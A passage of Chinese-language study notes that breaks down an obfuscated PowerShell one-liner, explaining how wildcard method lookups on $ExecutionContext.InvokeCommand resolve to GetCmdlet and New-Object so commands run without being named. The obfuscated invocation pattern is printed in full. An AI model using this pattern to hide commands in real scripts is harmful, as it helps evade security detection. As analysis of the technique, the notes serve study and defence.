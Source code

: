     ![image-20231203222340281](http://cdn.ayusummer233.top/DailyNotes/202312032223308.png)
    
    - `Set-Variable igZ`: 设置变量 `igZ` 的值
    
    - `.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods|?{$_.Name-like'*Cm*t'}).Name).Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand|GM|?{$_.Name-like'*om*e'}).Name).Invoke('*w-*ct',$TRUE,1))(Get-ChildItem Variable:0W).Value`
    
      ![image-20231203221543335](http://cdn.ayusummer233.top/DailyNotes/202312032215370.png)
    
      - `.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods | ? { $_.Name -like '*Cm*t' }).Name)`
    
        ![image-20231203221726260](http://cdn.ayusummer233.top/DailyNotes/202312032217291.png)
    
      - `.Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand | GM | ? { $_.Name -like '*om*e' }).Name).Invoke('*w-*ct', $TRUE, 1))`
    
        - `$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand | GM | ? { $_.Name -like '*om*e' }).Name).Invoke('*w-*ct', $TRUE, 1)`: `New-Object`
    
          ![image-20231203222117938](http://cdn.ayusummer233.top/DailyNotes/202312032221995.png)
    
          
    
          
    
        
    
    - `.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods | ? { $_.Name -like '*Cm*t' }).Name).Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand | GM | ? { $_.Name -like '*om*e' }).Name).Invoke('*w-*ct', $TRUE, 1))(Get-ChildItem Variable:0W).Value`
      
      - `.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods | ? { $_.Name -like '*Cm*t' }).Name)`
        - `.$ExecutionContext.InvokeCommand`: 获取 `InvokeCommand` 的方法
        
        - `($ExecutionContext.InvokeCommand.PsObject.Methods | ? { $_.Name -like '*Cm*t' }).Name`: 获取 `PsObject` 的方法中名称中包含 `Cm*t` 的方法的名称, 也即 `GetCmdlet`
          
          ![image-20231203214534295](http://cdn.ayusummer233.top/DailyNotes/202312032145351.png)
          
          - `().Name`: 获取名称
          
          - `$ExecutionContext.InvokeCommand.PsObject.Methods | ? { $_.Name -like '*Cm*t' }`: 获取 `PsObject` 中名称中包含 `Cm*t` 的方法, 也即 `System.Management.Automation.CmdletInfo GetCmdlet(string commandName)`
            
            ![image-20231203214409915](http://cdn.ayusummer233.top/DailyNotes/202312032144946.png)
            
            - `$ExecutionContext.InvokeCommand.PsObject.Methods`: 获取 `PsObject` 的方法
              - `PsObject` 是 `PowerShell` 中的一个类, 用于表示对象的属性和方法
            - `? { $_.Name -like '*Cm*t' }`: 获取名称中包含 `Cm*t` 的方法
            - `System.Management.Automation.CmdletInfo GetCmdlet(string commandName)`: `GetCmdlet` 方法的作用是获取命令的信息, 也即 `Get-Command`
              - `System.Management.Automation`：是 PowerShell 的 .NET 命名空间，提供对 PowerShell 运行时的程序化访问。这包括执行命令、管理运行空间、创建和管理 PowerShell 管道等功能。
              - `CmdletInfo` 是一个类，它提供了有关 PowerShell cmdlet 的详细信息，如 cmdlet 的名称、模块、参数等
              - `GetCmdlet` 是 `CmdletInfo` 类的一个方法，用于获取 cmdlet 的信息; 它的参数是 cmdlet 的名称，返回值是 `CmdletInfo` 对象
          